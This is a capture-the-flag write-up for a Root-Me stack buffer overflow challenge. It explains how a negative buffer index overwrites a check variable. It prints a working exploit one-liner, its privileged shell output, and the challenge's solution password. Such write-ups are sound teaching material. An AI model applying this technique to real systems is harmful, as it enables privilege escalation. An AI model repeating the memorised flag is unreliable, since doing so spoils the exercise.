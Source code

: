 # ELF x86 - Stack buffer overflow basic 3 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-3
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch16@challenge02.root-me.org   
Username	app-systeme-ch16
Password	app-systeme-ch16
```
The source code is available and it's pretty clear that one can control the index of the buffer (_count_) at each character entered.<br>
The problem is that the buffer is growing upwards (to higher addresses), while the stack grows downwards (to lower addresses). So we'll not be able to overwrite the _check_ variable just like that.<br>
Luckily, _count_ is a signed integer, which means it can be negative. So, because we can increase the count (using any character which is not '\x08') and **decrease** it (using the '\x08' character).<br>
After trying to decrease count to -4 so _buffer[count]_ will point to _check_ (hopefully), one can get the following output:

```sh
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: id
uid=1116(app-systeme-ch16) gid=1116(app-systeme-ch16) euid=1216(app-systeme-ch16-cracked) groups=1216(app-systeme-ch16-cracked),100(users),1116(app-systeme-ch16)
cat .passwd
Sm4shM3ify0uC4n
```
